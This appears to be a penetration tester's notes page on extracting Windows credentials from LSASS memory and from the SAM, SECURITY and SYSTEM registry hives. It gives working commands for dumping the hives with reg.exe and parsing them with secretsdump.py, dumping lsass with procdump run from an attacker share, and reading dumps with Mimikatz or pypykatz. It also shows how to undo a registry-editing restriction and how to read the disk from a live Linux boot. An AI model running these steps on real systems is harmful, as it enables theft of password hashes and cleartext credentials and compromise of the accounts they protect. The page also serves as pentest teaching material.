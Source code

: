 # Credential Extraction

Multiple credentials are stored on a windows computer. Credentials are usually extracted from two sources the process `Local Security Authority Subsystem Service (LSASS)` and from the registry.



## Local Security Authority Subsystem Service - LSASS

The Local Security Authority Subsystem Service (LSASS) stores credentials in memory on behalf of users with active Windows sessions.
This allows users to seamlessly access network resources, such as file shares, Exchange Server mailboxes, and SharePoint sites, without re-entering their credentials for each remote service.


Credentials are stored in the LSASS memory in the following actions are performed:
- Logs on to a local session or RDP session on the computer
- Runs a task by using the RunAs option
- Runs an active Windows service on the computer
- Runs a scheduled task or batch job
- Runs a task on the local computer by using a remote administration tool


### NT Hashes

If a domain user performs any of the actions mentioned above the credentials, the NT-hash is stored in the LSASS process.

### WDigest

If WDigest is enabled the domain accounts credentials are stored in plaintext.

## Registry

There are three areas in the registry that are of relevance: `SAM`, `SECURITY` and `SYSTEM`.
These three different areas contains different kinds of secrets.

### SAM - Security Accounts Manager

This "hive" (area in the registry) contains the hashed passwords for the local users. So it contains the NT-hashes of the local users, the same users that you see when you run `net user`.
It is usually extracted like this:

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\system c:\temp\system.save
```

In order to extract the credentials you need the BOOTKEY, and that key is stored in the hive `SYSTEM`.

The hashes can be extracted like this with impackets module `secretsdump.py`.

```
python secretsdump.py LOCAL -sam sam.save -system system.save
```


### Domain Cached Credentials / DCC2 / MSCASH
When a domain user log in to a computer the credentials for that user is cached on the computer. So that it is possible to log on to the computer even when the computer is offline, and not able to communicate with the Domain Controller.

These credentials are stored in the format of Domain Cached Credentials version 2 (DCC2) on Windows Vista and newer. This type of credentials can not be used for Pass-the-Hash attacks. These credentials does not expire. 

By default up to ten credentials are stored on the machine, on windows 10 at least. This can however be configured by configuring the following registry key, increase or decrease it.

```
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\CashedLogonsCount
```

The DCC2 hashes are stored in the `SECURITY` hive. To be more precis in : `HKEY_LOCAL_MACHINE\SECURITY\Cache`.


```
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
```

The bootkey, which I think can be found in the `system` hive, needs to be provided in order to extract the DCC2 credentials.

```
python secretsdump.py LOCAL -security security.save -system system.save
```

The DCC2 credentials are not as fast and easy to crack as NT-hashes, but with the right password-list it can be done.


### LSA Secrets

LSA secrets is an area in the registry, under `Security` that contains different kinds of interesting secrets. The data is used by Local System Authority, which is why it is called LSA Secrets. Only the SYSTEM user can access the registry.  

```
HKEY_LOCAL_MACHINE/Security/Policy/Secrets
```

![LSA](../img/lsa-secrets-registry-location.png "LSA")

So what are these secrets?

- $MACHINE.ACC - Machine account password - Can be used as any other domain account
- DefaultPassword - If AutoLogon is enabled a password in cleartext can be found.
- NL$KM ??
 
When services are run under the context of a local or domain user the credentials for that user is stored in `Secrets`.

# Extracting credentials from the LSASS process

Sometimes it is not desirable to use Mimikatz on the target machine, because mimikatz is flagged as malware by most antivirus. There are however other ways to solve the problem, using only windows tools. Living of the land.

One way is to dump the lsass process. There are a few ways to do this, one is by using the Task Manager GUI, and the other is by using `procdump.exe` from sysinternals. Procdump is beneficial if you only have command line access, no gui.

**Dump using Task manager**

The GUI way: Open task manager as administrator, rightclick on lsass and click on "Create dump file". Transfer the dump-file to an offline windows machine with Mimikatz on it. 

**Dump using procdump.exe**

If you don't want to download procdump.exe to the victim computer you can host it on another share and then mount the share, and run it from there. It is seldom allowed to mount shares without authentication.

```
net use k: \\10.10.11.11\bbb /user:username password
```

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```


## Mimikatz/Pypykatz

Run mimikatz on your offline windows machine

```
token::elevate
privilege::debug
sekurlsa::minidump lsass.DMP
sekurlsa::logonPasswords full
```

```
pypykatz lsa minidump lsass.DMP
```


# Extract credentials from SAM and SECURITY hives from registry

The other way to do it is simply to download the SAM, SYSTEM and SECURITY files from the compromised host. Transfer those files to your offline windows machine with Mimikatz on it, or simply use secretsdump.py.

If the machine is running you need to dump the SAM and SYSTEM from the registry. 

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
```


```
python secretsdump.py LOCAL -sam ~/Documents/credsdump/sam.save -security ~/Documents/credsdump/security.save -system ~/Documents/credsdump/system.save
```

See the [cracking chapter](../../cracking_hashes/cracking_hashes) for instructions on how to crack these hashes.


## Bypassing restrictions 


If you encounter a error such as the following `ERROR Registry editing has been disabled by your administrator` you will need to bypass it.


```powershell
# First verify the current setting
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name DisableRegistryTools 
# Change the setting to disable
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name DisableRegistryTools -Value 0
```

Some other techniques are found here: https://www.online-tech-tips.com/windows-xp/registry-disabled-by-administrator/


## Extract credentials from SAM and SECURITY hives from disk

If you have physical access to the machine and it does not use BitLocker you can just boot up the computer with a live linux and then mount the windows disk.


```
# if the below command shows "Microsoft basic data" or nothing then it is likely that the partition is encrypted, and you can just forget about it and move on.
blkid 
lsblk -f


# if the disk is ntfs or vfat you can mount it like this. Read only.

mount -t ntfs-3g -o ro /dev/sda3 /mnt/something
mount -t vfat -o ro /dev/sda3 /mnt/something
```